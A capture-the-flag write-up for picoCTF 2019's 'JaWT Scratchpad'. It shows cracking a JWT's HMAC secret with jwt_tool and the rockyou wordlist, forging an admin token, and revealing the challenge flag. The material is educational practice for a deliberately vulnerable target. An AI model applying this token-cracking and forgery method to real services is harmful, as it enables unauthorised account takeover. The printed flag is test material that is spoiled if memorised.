 # JaWT Scratchpad - Points: 400

## Problem

> Check the admin scratchpad! ```https://2019shell1.picoctf.com/problem/32267/``` or http://2019shell1.picoctf.com:32267

## Hints

> What is that cookie?

> Have you heard of JWT?

## Overview

Let's connect to the provided website

Navigating to the vulnerable website, the first thing a norm would do is to check the source code. Unfortunately, there's nothing seems to be suspicious. However, ```JWT``` which stands for **JSON Web Tokens** and ```John``` which is referring to a really famous and common password cracker, **John The Ripper** are mentioned with the provided link for each.  

There's a box where you can actually enter your own chosen username. If we tried to login as ```admin```, we'll get an error like this
```html
<p style="color:red">
       YOU CANNOT LOGIN AS THE ADMIN! HE IS SPECIAL AND YOU ARE NOT.
</p>
```
However, logging in as another user is allowed. I used ```ch3llist4``` as my username. Now we can start exploiting the cookie.

## Solutions

I decided to use the same [online extension](http://www.editthiscookie.com/) as I did on **Open-to-admins** challenge for checking and editing the site cookies.

As expected, I saw a cookie named ```jwt``` with the value ```eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiY2gzbGxpc3Q0In0.WiG-XOhFqsulY9c7-ZSNMa8nI-AcBgKsRkY678wYcO8```. This should be the JSON token that got already encoded using ```base64```

Use this [website](https://jwt.io/) which is provided as a hint in their source code. We can extract the information out of it.
```
{
  "typ": "JWT",
  "alg": "HS256"
}

{
  "user": "ch3llist4"
}
```
As I read on the [wiki](https://en.wikipedia.org/wiki/JSON_Web_Token) ,

The signature part which is the last part after ```.``` is calculated by encoding the header and payload using [Base64url Encoding](https://en.wikipedia.org/wiki/Base64#URL_applications) and concatenating the two together with a period separator. That string is then run through the cryptographic algorithm specified in the header...
```
HMAC-SHA256(
 base64urlEncoding(header) + '.' +
 base64urlEncoding(payload),
 secret
)
```
So far as i know, we need to somehow get their secret code used in the signature part to generate a new JWT and then we can use that to exploit the website.

I actually didn't use John as the John process for bruteforcing JWT specifically is a little bit more complicated. Instead, I used this [tool](https://github.com/ticarpi/jwt_tool) 

```
$ python jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiY2gzbGxpc3Q0In0.WiG-XOhFqsulY9c7-ZSNMa8nI-AcBgKsRkY678wYcO8 ../JohnTheRipper/run/rockyou.txt

,----.,----.,----.,----.,----.,----.,----.,----.,----.,----.
----''----''----''----''----''----''----''----''----''----'
     ,--.,--.   ,--.,--------.,--------.             ,--.
     |  ||  |   |  |'--.  .--''--.  .--',---.  ,---. |  |
,--. |  ||  |.'.|  |   |  |      |  |  | .-. || .-. ||  |
|  '-'  /|   ,'.   |   |  |,----.|  |  ' '-' '' '-' '|  |
 `-----' '--'   '--'   `--''----'`--'   `---'  `---' `--'
,----.,----.,----.,----.,----.,----.,----.,----.,----.,----.
'----''----''----''----''----''----''----''----''----''----'

Token header values:
[+] typ = JWT
[+] alg = HS256

Token payload values:
[+] user = ch3llist4

######################################################
# Options:                                           #
# 1: Check CVE-2015-2951 - alg=None vulnerability    #
# 2: Check for Public Key bypass in RSA mode         #
# 3: Check signature against a key                   #
# 4: Check signature against a key file ("kid")      #
# 5: Crack signature with supplied dictionary file   #
# 6: Tamper with payload data (key required to sign) #
# 0: Quit                                            #
######################################################

Please make a selection (1-6)
> 5

Loading key dictionary...
File loaded: ../JohnTheRipper/run/rockyou.txt
Testing 14344380 passwords...
[+] ilovepico is the CORRECT key!
```
Now we know that the secret used in the signature part is ```ilovepico```. Let's use it to generate the new token using the previous website. Now we change our usernames to ```admin``` for initializing the unauthorized access.

This token is perfect for exploiting now
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.gtqDl4jVDvNbEe_JYEZTN19Vx6X9NNZtRVbKPBkhO-s
```
Change the cookie value to the token and we're good. All we need to do left is reload the page and enjoy the flag..

flag:
```
picoCTF{jawt_was_just_what_you_thought_6ba7694bcc36bdd4fdaf010b2ec1c2c3}
```
